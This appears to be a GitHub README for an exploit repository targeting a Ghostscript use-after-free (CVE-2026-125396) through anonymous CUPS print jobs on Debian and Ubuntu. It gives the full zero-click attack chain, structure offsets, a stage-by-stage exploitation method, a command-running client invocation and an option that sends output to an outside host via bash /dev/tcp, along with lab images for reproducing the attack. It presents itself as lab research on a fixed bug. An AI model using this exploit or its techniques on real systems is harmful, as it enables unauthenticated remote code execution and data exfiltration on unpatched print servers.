




# Upload2Shell — CVE-2026-125396 (Debian 13 + Ubuntu zero-click RCE)

Self-contained exploitation of **CVE-2026-125396**, a use-after-free in
Ghostscript's Type 1 font loader (`.putgstringcopy`). The bug gives a
write-what-where that disables `-dSAFER`'s native path control; the payload
then runs a command as the CUPS filter account.

- Research: Paulos Yibelo / pwn.ai, 21 Nov 2026
- Article: https://pwn.ai/upload2shell/research.html
- Published PoC: https://pwn.ai/upload2shell/poc-native-write.pdf
- Fixed upstream: Ghostscript 10.08.0 (2026-09-08)

<p align="center">
  
  
  
  
  
</p>

<p align="center">
  
  
  
  <a href="https://github.com/DeathShotXD/Upload2Shell/actions/workflows/ci.yml"></a>
  <a href="LICENSE"></a>
  
</p>

<p align="center">
  
</p>

<br>

> **Lab-first security research.** CVE-2026-125396 is public and fixed in
> Ghostscript 10.08.0. This repository is an independent, re-derived
> zero-click chain for Debian 13 and Ubuntu 22.04/24.04, with a real A/B lab.
> It does not claim discovery. Use it only on systems you own or have written
> permission to test.

## Zero-click chain

```text
anonymous IPP Print-Job  (no credentials, no user interaction)
  -> shared CUPS queue
  -> /usr/lib/cups/filter/gstopdf       (PostScript -> PDF)
  -> /usr/lib/cups/filter/gstoraster
  -> gs -dSAFER
  -> Type 1 font-loader UAF
  -> dangling ref -> forged string view -> pointer walk
  -> path_control_active := 0
  -> %pipe%<cmd>  as uid=7(lp)
```

<p align="center">
  
</p>

## Compatibility matrix (verified)

| Target | Ghostscript | Queue chain | Command chain | Result |
|---|---|---|---|---|
| Debian 13 (trixie) | 10.05.1~dfsg-1+deb13u1 | `gstopdf` → `gstoraster` | `pdevice` → `psi_device_ref` | 3/3 `uid=7(lp)` |
| Ubuntu 24.04 (noble) | 10.02.1~dfsg1-0ubuntu7.9 | `gstopdf` → `gstoraster` | `pdevice` → `psi_device_ref` | 3/3 `uid=7(lp)` |
| Ubuntu 22.04 (jammy) | 9.55.0~dfsg1-0ubuntu5.14 | `gstopdf` → `gstoraster` | `pdevice` **is** `gx_device*` | 3/3 `uid=7(lp)` |

9/9 remote jobs executed the command. Fixed builds (`+deb13u2`/`+deb13u3`,
`7.10`, `5.15`) fail at the dangling lookup:

```text
Error: /undefined in --get-- ... GHOSTESCAPE_DANGLING
```

<p align="center">
  
</p>

<p align="center">
  
</p>

## Version differences that matter

- **9.55 vs 10.x.** In 10.x, `ref.value.pdevice` is a `psi_device_ref *`; in
  9.55 it is a `gx_device *` directly. The payload auto-detects this by reading
  `Pdev+0` (small int = `gx_device.params_size` → 9.55; pointer → 10.x).
- **Ubuntu has no `file:` CUPS backend.** A `file:` device fails with
  "scheduler could not open the output file" and the job is stopped *before*
  the filter chain. Install a trivial `discard://` backend instead; the
  `gstopdf` filter still runs.

## Ghostscript layout

| Build | `ref` | `gx_device.memory` | `gs_memory_t.gs_lib_ctx` | `gs_lib_ctx_t.core` | `path_control_active` |
|---|---|---|---|---|---|
| 10.05.1 | 16 | +24 | +208 | +8 | +156 |
| 10.02.1 | 16 | +24 | +208 | +8 | +156 |
| 9.55.0 | 16 | +24 | +208 | +8 | +156 |

Read from Ubuntu/Debian dbgsym with gdb. Only the `pdevice` indirection differs.

## Exploit stages (`poc-pipe.ps`)

1. Write a Type 1 font to `%ram%`; a `typecheck` during `findfont` exposes the
   privileged `.forceput`.
2. Recover `.forceput` from the error handler, store a local 2048-byte string
   in `systemdict`, `restore`, keep the stale reference.
3. Reclaim the freed block with 512 arrays of `0x12345678`; scan for the
   overlapping live ref.
4. Forge a string view (`rsize`/`value`) over an arbitrary address.
   *PostScript `bitshift` is a **left** shift for a positive count; byte
   extraction needs `A I 8 mul neg bitshift 255 and`.*
5. Walk `currentdevice` → (`psi_device_ref`) → `gx_device` → `gs_memory_t` →
   `gs_lib_ctx_t` → `gs_lib_ctx_core_t`.
6. Zero `path_control_active`; `.currentpathcontrolstate` flips `true` → `false`.
7. `(%pipe%<cmd>) (w) file closefile` runs as `lp`.

## Standalone client (`cups_poc.py`)

Raw IPP over HTTP — no `lp`, no local shell on the target:

```bash
python3 cups_poc.py -t 127.0.0.1:6310 -q u2s --cmd 'id > /tmp/pwned'
```

```
Upload2Shell 0.2.0  (CVE-2026-125396)
  target   127.0.0.1:6310/u2s
  payload  4536 bytes
  command  id > /tmp/pwned
  status   0x0000 (successful-ok)  HTTP 200
  job-id   1
```

- Loopback only unless `--authorized`.
- `--exfil HOST:PORT` wraps the command with `bash /dev/tcp` for reverse output.
- `--json` for machine-readable results.

## Lab images

| Image | Distro | Ghostscript | Notes |
|---|---|---|---|
| `upload2shell-pwn` | Debian 13 | `+deb13u1` | CUPS + `u2s` queue, port 631 |
| `upload2shell-noble` | Ubuntu 24.04 | `7.9` | `discard://` backend |
| `upload2shell-jammy` | Ubuntu 22.04 | `5.14` | `discard://` backend |

```bash
./fetch-debs.sh
docker build -t upload2shell-pwn .
docker run -d --name u2s-pwn -p 127.0.0.1:6310:631 upload2shell-pwn

# interpreter stage (published PoC)
docker run --rm upload2shell-pwn \
  gs -dSAFER -sDEVICE=nullpage -q /root/poc-native-write.pdf
# BEFORE=319 HIJACKED=18 RESTORED=319
```

## Artifacts

```text
cups_poc.py              standalone IPP client (zero-click)
poc-pipe.ps              full chain, auto-detects 9.55 vs 10.x, __CMD__ placeholder
poc-native-write.pdf     published bounded native-write PoC
poc-leak.ps              stages 1-4: read/write + pointer walk
poc-pca.ps               path_control_active zeroing + state check
tests/test_ipp.py        17 unit tests (IPP, escaping, scope guard, payload)
lab/u2s.ppd              PPD forcing PostScript -> PDF via gstopdf
lab/cupsd.conf           anonymous shared queue config
lab/entrypoint.sh        Debian lab bootstrap
fetch-debs.sh            pins +deb13u1 from snapshot.debian.org
Dockerfile               debian:13 + vulnerable Ghostscript
ubuntu/debs-noble        Ubuntu 24.04 vulnerable packages (7.9)
ubuntu/debs-jammy        Ubuntu 22.04 vulnerable packages (5.14)
assets/                  hero, flow, lab, stats, divider, demo GIF
scripts/make_demo.py     renders the demo GIF from the real run
.github/workflows/ci.yml static matrix + Docker lab job
```

## Tests and CI

```bash
python3 -m unittest discover -s tests -v
```

17 unit tests: PostScript escaping, shell quoting, IPP header/group/attributes,
response parsing, payload rendering, loopback scope guard, and request
construction. GitHub Actions runs the suite on Python 3.9–3.13 and a Docker
job that builds the vulnerable Debian 13 image and asserts the published PoC
oracle (`BEFORE=319 / HIJACKED=18 / RESTORED=319`).

<p align="center">
  
</p>

## Limitations

- Zero-click means **no credentials and no user interaction**; it still needs
  network reachability to the CUPS IPP port and a shared queue that accepts
  anonymous jobs.
- The overlap stage is heap-layout dependent. A fresh worker is reliable
  (9/9 here); a long-lived, multi-client worker may need retries.
- Any proxy that buffers/re-frames the job changes timing and can prevent the
  overlap.
- Fixed in `+deb13u2`, `7.10`, `5.15`; upgrading removes the primitive. The
  interpreter is the real fix — queue authentication only changes who can
  deliver the document.
